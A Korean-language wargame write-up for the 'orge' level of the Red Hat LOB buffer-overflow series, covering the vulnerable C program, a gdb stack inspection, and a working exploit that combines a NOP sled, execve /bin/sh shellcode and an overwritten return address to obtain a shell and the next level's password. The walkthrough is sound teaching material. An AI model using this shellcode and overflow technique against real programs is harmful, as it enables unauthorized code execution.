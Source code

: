============================================================================================================
[redhat-lob] (7) orge
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d -> a;

        a [shape=box, label="dummy * 19 + shellcode + (argv[1] address+4*i)"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="(argv[1] address+4*i)"];
    }


|

Source Code
============================================================================================================

.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // here is changed!
        if(strlen(argv[0]) != 77){
            printf("argv[0] error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
            printf("argument is too long!\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
    }

|

Vulnerabliity Vector
============================================================================================================

main 함수의 ret를 덮어씌워 오버플로우를 발생시킨다.

.. code-block:: console

    ==============================
    LOW     
    ------------------------------
    local variables of main
    saved registers of main
    return address of main <<- overflow
    argc
    argv
    envp
    stack from startup code
    argc
    argv pointers
    NULL that ends argv[]
    environment pointers
    NULL that ends envp[]
    ELF Auxiliary Table
    argv strings
    environment strings
    program name
    NULL
    ------------------------------
    HIGH (0xC0000000)    
    ==============================

|

Buffer Overflow
============================================================================================================

Overflow condition 

- environ을 초기화하여 환경 변수 사용를 통한 쉘코드 삽입이 불가능하다.
- argv[0]의 길이가 77이어야 함
- argv[1]의 47번째 문자열이 "\\xbf"이어야 함
- argv[1]의 길이가 47이하 이어야 함

.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./orge `python -c 'print "a"*47'`

    argv[0] error

    $ ./orge `python -c 'print "a"*47+"\xbf"'`

    argv[0] error

이번 문제는 argv[0]의 길이가 77 바이트를 만족해야 버퍼오버플로우를 진행할 수 있다.
77바이트의 길이를 가진 파일을 하나 생성하여 ln 명령으로 링크를 걸어준다. 
( 앞에 "./"가 있으므로 75바이트를 생성하면 된다. )

.. code-block:: console

    $ ln orge `python -c 'print "a"*75'`
    $ ls
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  orge  orge.c
    $ ./`python -c 'print "a"*75'` a
    stack is still your friend.


|


exploit
============================================================================================================

기존 문제들의 경우 실행 파일명(argv[0])의 길이에 대한 제한이 없었으나, 해당 문제는 실행 파일명의 길이가 77으로 제한되어 있어 해당 부분을 우회하여야 한다.

argv[1]이 저장되는 주소 확인
------------------------------------------------------------------------------------------------------------

앞의 조건에 argv[1][47]값이 "\\xbf"인지 확인하기 때문에, gdb를 이용하여 argv[1]이 저장되는 주소(buffer)를 찾는다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/darkelf/./aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa `python -c 'print "a"*47+"\xbf"'`
    /bin/bash: /home/goblin/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffa48       -1073743288

    (gdb) i reg $ebp
    ebp            0xbffffa68       -1073743256

    (gdb) x/100x $esp

    ==========================================================================
    0xbffffa48:     0xbffffa68      0x400309cb      0x00000002      0xbffffa94
    0xbffffa58:     0xbffffaa0      0x40013868      0x00000002      0x08048450
    0xbffffa68:     0x00000000      0x08048471      0x08048500      0x00000002
    0xbffffa78:     0xbffffa94      0x08048390      0x0804866c      0x4000ae60
    0xbffffa88:     0xbffffa8c      0x40013e90      0x00000002      0xbffffb90
    0xbffffa98:     0xbffffbec      0x00000000      0xbffffc1d      0xbffffc3f
    0xbffffaa8:     0xbffffc49      0xbffffc57      0xbffffc76      0xbffffc86
    0xbffffab8:     0xbffffc9f      0xbffffcbb      0xbffffcda      0xbffffce5
    0xbffffac8:     0xbffffcf3      0xbffffd35      0xbffffd48      0xbffffd5d
    0xbffffad8:     0xbffffd6d      0xbffffd7a      0xbffffd98      0xbffffda3
    0xbffffae8:     0xbffffdb4      0xbffffdc6      0xbffffdd5      0xbffffddd
    0xbffffaf8:     0x00000000      0x00000003      0x08048034      0x00000004
    0xbffffb08:     0x00000020      0x00000005      0x00000006      0x00000006
    0xbffffb18:     0x00001000      0x00000007      0x40000000      0x00000008
    0xbffffb28:     0x00000000      0x00000009      0x08048450      0x0000000b
    0xbffffb38:     0x000001fa      0x0000000c      0x000001fa      0x0000000d
    0xbffffb48:     0x000001fa      0x0000000e      0x000001fa      0x00000010
    0xbffffb58:     0x0fabfbff      0x0000000f      0xbffffb8b      0x00000000
    0xbffffb68:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffb78:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffb88:     0x69000000      0x00363836      0x6d6f682f      0x61642f65
    0xbffffb98:     0x6c656b72      0x2f2e2f66      0x61616161      0x61616161
                                                      ^               ^
    0xbffffba8:     0x61616161      0x61616161      0x61616161      0x61616161
                      ^               ^               ^               ^
    0xbffffbb8:     0x61616161      0x61616161      0x61616161      0x61616161
                      ^               ^               ^               ^ argv[1] = 0xbffffbc7
                                                                            
    0xbffffbc8:     0x61616161      0x61616161      0x61616161      0x61616161
    ==========================================================================


|

argv[1] pointers 쉘코드 실행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ==============================
    LOW     
    ------------------------------
    local variables of main
    saved registers of main
    return address of main <<- overflow
    argc
    argv
    envp
    stack from startup code
    argc
    argv pointers ->> shellcode
    NULL that ends argv[]
    environment pointers
    NULL that ends envp[]
    ELF Auxiliary Table
    argv strings
    environment strings
    program name
    NULL
    ------------------------------
    HIGH (0xC0000000)    
    ==============================

|

오버플로우시 RET를 argv[1] 주소로 덮어씌워 해당 쉘코드가 실행되도록 한다. argv[1]의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.


.. code-block:: console

    $ ./`python -c 'print "a"*75'` `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xc7\xfb\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀▒▒▒▒
                                           
    bash$ whoami
    orge
    bash$ my-pass
    euid = 507
    timewalker


